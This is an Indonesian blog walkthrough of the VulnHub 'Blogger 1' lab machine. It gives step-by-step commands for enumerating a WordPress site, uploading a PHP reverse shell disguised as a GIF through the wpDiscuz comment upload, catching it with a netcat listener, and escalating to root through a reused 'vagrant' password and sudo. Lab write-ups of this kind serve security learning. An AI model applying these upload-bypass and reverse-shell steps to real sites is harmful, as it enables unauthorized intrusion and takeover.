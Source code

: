 ```yaml
---
title: "Writeup Machine Blogger 1 VulnHub"
author: Ibnu Ubaeydillah
layout: post
comments: true
permalink: /Writeup-Machine-Blogger-VulnHub/
tags: [writeup, all-post]
---
```

Halo temen-temen ini adalah writeup kedua saya, writeup kali ini akan membahas mesin ``Blogger``, mesin tersebut saya ambil dari [Vulnhub](https://www.vulnhub.com/entry/blogger-1,675/). Pada mesin kali ini memiliki vulnerability pada fitur ``post comment`` yang dimana fitur tersebut dapat digunakan untuk mengupload exploit shell kita. Ok baik, kita langsung mulai aja ketulisan selanjutnya. 

<h2>Scan Open Port</h2>
```
nmap -T4 -sC -sV -p- --min-rate=1000 blogger.thm -oN blogger.nmap
```
<img src="https://user-images.githubusercontent.com/28418984/184466224-7e2e39ab-8748-4147-9ffa-6571c28acd07.png">
<h2>Enumerate webserver</h2>
```
dirsearch -u http://blogger.thm/assets/fonts/
```
<br>
<center>
<img src="https://user-images.githubusercontent.com/28418984/184466857-92b4d469-1eeb-464d-b719-ffd2b58f60b1.png">
</center>
<br>kemudian saya cek view source apakah ada informasi yang menarik dan ternyata ada, sistem ini menggunakan ``Wordpress`` ternyata.
```
view-source:http://blogger.thm/assets/fonts/blog/
```
<br>
<center>
<img src="https://user-images.githubusercontent.com/28418984/184466896-45986e80-2128-429c-a1fb-367bdf0810db.png">
</center>
<h2>Enumerate wordpress</h2>
Dikarenakan target menggunakan ``Wordpress`` disini, saya mencoba mengscannya menggunakan ``WPScan``, untuk menemukan informasi apa saja yang di milikinya.
```
wpscan --api-token=$WPSCAN_KEY --url http://blogger.thm/assets/fonts/blog --plugins-detection mixed -e
```
<br>
<center>
<img src="https://user-images.githubusercontent.com/28418984/184467260-b3cd7b66-553a-4835-8608-f16381a8255d.png">
</center>
<br>informasi yang telah saya temukan adalah ``WordPress version 4.9.20`` dan ``Direct Access`` ke ``http://blogger.thm/assets/fonts/blog/wp-content/uploads/`` disini dapat dinyatakan tempat penyimpanan pada sistem disimpan disini dan juga dapat dilakukan ``Direct Access``. Oleh karena itu saya mencoba melakukan proses enumerate lagi terhadap ``Webserver``, ternyata disini ada fitur ``post comment``. 
<img src="https://user-images.githubusercontent.com/28418984/184467364-f6ab4d38-f201-40ef-99c4-6fea91ee1b4c.png">
kemudian saya melakukan ``view source`` pada halaman ``view-source:http://blogger.thm/assets/fonts/blog/?p=29`` dan menemukan sebuah script java script ``<script type='text/javascript' src='http://blogger.thm/assets/fonts/blog/wp-content/plugins/wpdiscuz/assets/js/wpdiscuz-combo.min.js?ver=7.0.4'></script>`` yang di artikan sistem ini menggunakan ``Wpdisquz version 7.0.4`` untuk membuat fitur ``post comment``. 

<h2>Uploading Shell</h2>
Saya mencoba mengupload exploit kedalam fitur ``post comment`` untuk exploitnya sendiri saya ambil dari [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell), jadi pastikan temen-temen download terlebih dahulu exploit ini. Setelah ``php-reverse-shell`` kalian download, silakan kalian edit file tersebut.
``Note :``
<br>
dikarenakan hanya file gambar saja yang bisa di upload pada fitur ``post comment`` oleh karena itu kita akan memanipulasi sehingga target mengira bahwa file exploit yang kita kirimkan adalah file gambar biasa. Caranya yaitu dengan menambahkan tulisan ``GIF89a;`` pada line 1 dan temen-temen juga tidak lupa untuk mengganti ``IP`` dan ``PORT`` nya ya, sesuai dengan ``IP`` dan ``PORT`` temen-temen miliki.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184468581-2019b8b4-478b-43c7-9f9b-08a449a13714.png">
</center>
<center>
<img src="https://user-images.githubusercontent.com/28418984/184467967-8fce6417-e5a0-497a-a7c0-2c73fa507961.png">
</center>
<br>
setelah itu upload ``php-reverse-shell`` pada fitur ``post comment``. dan cek pada url ``http://blogger.thm/assets/fonts/blog/wp-content/uploads/2022/08/`` disitu sudah akan muncul file ``php-reverse-shell`` yang telah di upload tadi. silakan kalian nyalakan terlebih dahulu netcatnya ``nc -lvnp 4444`` dan open file ``php-reverse-shell`` tersebut, maka akan secara otomatis netcat akan meresponnya dan masuk kedalam shell sistem.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184468558-27675477-dc28-4325-9fa3-9c53b35e631b.png">
</center>
lalu masukan perintah ``python3 -c 'import pty; pty.spawn("/bin/bash")'`` untuk mengganti menjadi ``bash`` dan masukan perintah ``export TERM=xterm`` kemudian ``CTRL+z`` > ``stty raw -echo && fg`` > untuk mengupgrade shell. Di sini saya mengecek pada direktori ``/home`` terdapat ``3 user``.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184469002-a2d5677b-42ab-40fd-8535-c9b8c8949962.png">
</center>
<h2>Getting user’s flag</h2>
pada direktori ``/home/james/`` saya menemukan sebuah file ``user.txt`` namun ketikan saya masukan perintah ``cat user.txt`` file tersebut tidak meliki hak akses dan hanya dapat dibuka oleh user ``james``.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184469104-eda0928b-bee3-4f1d-88c8-a76f813d0530.png">
</center>
kemudian kita cek ke direktori ``/tmp`` apakah ada file yang dapat digunakan sebagai informasi, ternyata di folder ``/tmp`` ada sebuah file ``backup.tar.gz``, namun ketika saya pindahkan dan saya extrack ke local. ternyata itu hanya jebakan (rabit hole) saja. isi dari file tersebut berupa ``encrypt base64``.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184469891-c5e4c5ce-db4f-4e59-a13c-3a0af73cadfc.png">
</center>
<h2>Monitoring Process</h2>
Lalu saya mencoba melihat latar belakang pada sistem menggunakan ``PSPY``, untuk temen-temen yang ingin download ``PSPY`` bisa di [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy) sesuaikan dengan versi bit komputer target ya. Ketika saya melakukan analisa pada latar belakang sistem, saya menemukan hal yang janggal, yang dimana ada sebuah proses yang menjalankan file ``backup.sh`` > ``/bin/sh /usr/local/bin/backup.sh ``.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184470474-bdfb3790-a3ac-422c-9145-6a7f5df3ace7.png">
</center>
<br>
Ternyata file ``backup.sh`` memiliki fungsi untuk memanggail user ``james``. tetapi user ``www-data@ubuntu-xenial`` tidak dapat membaca dan menulis ke direktori tersebut.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184470633-faa808b4-2496-4d25-a0bb-6428793b9268.png">
</center>
<br>sekarang saya akan menebak ``kata sandi`` user yang dimiliki oleh sistem ini, ternyata ada salah satu user yang memiliki ``username`` dan ``password`` yang sama, yaitu ``vagrant``.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184480062-b909b02f-c76a-411d-8dac-d680c32f4a30.png">
</center>
<br>ketika saya memasukan perintah ``sudo -l`` saya menemukan bahwa user ``vagrant`` tidak memerlukan kata sandi untuk mengeksekusi apa pun pada siapa pun. oleh karena itu saya memasukan perintah ``sudo su james`` dan ternyata benar bisa masuk.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184480227-7b988fde-168b-4a85-8faa-ec5a447da661.png">
</center>
<br>dikarena user ``vagrant`` bisa mengakses dimanapun saya akhirnya mencoba untuk masuk sebagai user ``root``
<h2>Get User Root</h2>
ternyata bisa masuk dan saya sedikit coba mengenumerate ke direktori ``/root`` disana ternyata ada ``FLAG`` > ``root.txt``.
<center>
<img src="https://user-images.githubusercontent.com/28418984/184480396-86081a67-7e94-4473-b3ff-05f4cda8aa7e.png">
</center>
Sekian dari tulisan writeup kedua kali ini, semoga tulisan ini dapat dipahami oleh temen-temen. misalkan ada kalimat yang bingung mau di tanyakan, bisa menghubungi twitter saya [@xcore13x](https://twitter.com/xcore13x). Terima kasih.

